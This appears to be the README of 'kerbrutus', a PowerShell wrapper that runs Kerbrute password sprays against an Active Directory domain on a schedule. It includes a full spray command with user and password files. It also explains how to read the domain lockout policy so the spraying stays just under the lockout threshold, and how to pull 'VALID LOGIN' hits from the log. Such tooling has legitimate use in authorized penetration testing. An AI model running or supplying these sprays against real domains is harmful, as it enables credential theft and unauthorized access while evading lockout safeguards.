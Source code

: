 # Usage

```PowerShell
.\kerbrutus.ps1 -ExecutionCount 3 -TimeWindowMinutes 30 -CommandTemplate '..\kerbrute.exe passwordspray -d domain.local .\users.txt -v "<pass>"' -PasswordsFile .\passwords.txt -OutputFile results.log
```

In `-CommandTemplate` the `<pass>` is placeholder value that will be populated in the command from the specified file in `-PasswordsFile`.

The value specified in `-OutputFile` will have all results appended to it.

## Why?

So you can continuously and safely run [Kerbrute](https://github.com/ropnop/kerbrute) (namely the `passwordspray` function) in alignment with the password policy of the AD environment you are using.

E.g.
```PowerShell
Get-ADDefaultDomainPasswordPolicy
```
```
<SNIP>
LockoutDuration             : 00:30:00
LockoutObservationWindow    : 00:30:00
LockoutThreshold            : 5
<SNIP>
```

So, as the `LockoutObservationWindow` is `30` and the `LockoutThreshold` is `5`, you might choose to safely spray `3` passwords (for ever domain user) within a `30` minute window.

So you'd set the follow as such:
```PowerShell
-ExecutionCount 3 -TimeWindowMinutes 30
```

*NB*: Kerbrutus counts `30` minutes from when the last command finishes executing and adds 1 minute to create a buffer.

Then you can just `grep` all `VALID LOGIN`s from the log file:
```PowerShell
Select-String -Path "results.log" -Pattern "VALID LOGIN"
```
